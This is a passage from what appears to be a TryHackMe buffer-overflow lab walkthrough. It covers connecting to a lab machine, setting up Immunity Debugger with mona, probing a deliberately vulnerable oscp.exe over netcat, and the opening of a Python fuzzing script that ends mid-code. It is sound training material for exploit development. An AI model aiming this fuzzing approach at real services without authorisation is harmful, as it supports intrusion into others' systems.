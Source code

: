 # Using Immunity Debugger

1. Run Kali VM connected to THM over VPN. 
2. Start the Room Machine and note the IP address. Remote desktop from your Kali VM to the IP address of the 
Machine using Remmina. 

```text
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

## Start Immunity

| ![First run Immunity](../../_static/images/overflow1a.png) |
|:--:|
| Immunity setup |

3. In the Machine, right-click the `Immunity Debugger` icon on the Desktop and choose `Run as administrator`. 
4. When Immunity loads, configure mona (bottom of Immunity):

```text
!mona config -set workingfolder c:\mona\%p
```

5. Click the open file icon, or choose `File -> Open`. Navigate to the vulnerable-apps folder 
on the admin user's desktop, and then the `oscp` folder. Select the `oscp.exe` binary and open it.
6. The binary will open in a "paused" state, so click the red play icon or choose `Debug -> Run`. 
7. In a terminal window, the `oscp.exe` binary should be running, and tells us that it is listening on port `1337`.
8. On the Kali box, connect to port `1337` on `MACHINE` using netcat:

```text
nc MACHINE_IP 1337
```

9. Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type 
"OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

## Fuzzing the program

To fuzz the `ospc.exe` program to see if it is vulnerable, send it a long string of characters. This long string of 
characters will eventually exceed the memory buffer causing the buffer overflow. Use the script below and adapt it 
with the IP address of the host and the overflow to target. 

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
```